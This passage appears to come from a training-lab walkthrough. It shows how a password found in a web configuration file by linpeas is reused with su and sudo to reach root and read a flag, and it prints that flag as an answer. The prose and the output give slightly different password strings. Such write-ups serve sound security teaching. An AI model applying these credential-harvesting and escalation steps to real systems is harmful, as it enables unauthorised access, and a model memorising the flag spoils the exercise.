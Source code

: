 A second approach is by running `linpeas` and noticing that the configuration file `/var/www/html/gsconfig.php` exposes the password `P@ss0rd`:

```shell
cat gsconfig.php
```
```
www-data@gettingstarted:/var/www/html$ cat gsconfig.php

<SNIP>
\# Extra salt to secure your password with. 
Default is empty for backwards compatibility.
\#define('GSLOGINSALT', 'your_unique_phrase');
\#define('GSLOGINSALT', 'P@ssw0rd');
<SNIP>
```

Students then need to use this password to sign in as the user `mrb3n`, who can run as `root` all commands. Thus, students then can sign in as the user `root` and read the contents of the "root.txt" flag, finding it to be `f1fba6e9f71efb2630e6e34da6387842`:

```shell
su mrb3n
sudo su -
cat root.txt
```
```
www-data@gettingstarted:/var/www/html$ su mrb3n
Password: P@ssw0rd

mrb3n@gettingstarted:/var/www/html$ sudo -l
[sudo] password for mrb3n: P@ssw0rd

Matching Defaults entries for mrb3n on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:
	/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on gettingstarted:
    (ALL : ALL) ALL
mrb3n@gettingstarted:/var/www/html$ sudo su -
root@gettingstarted:~\
```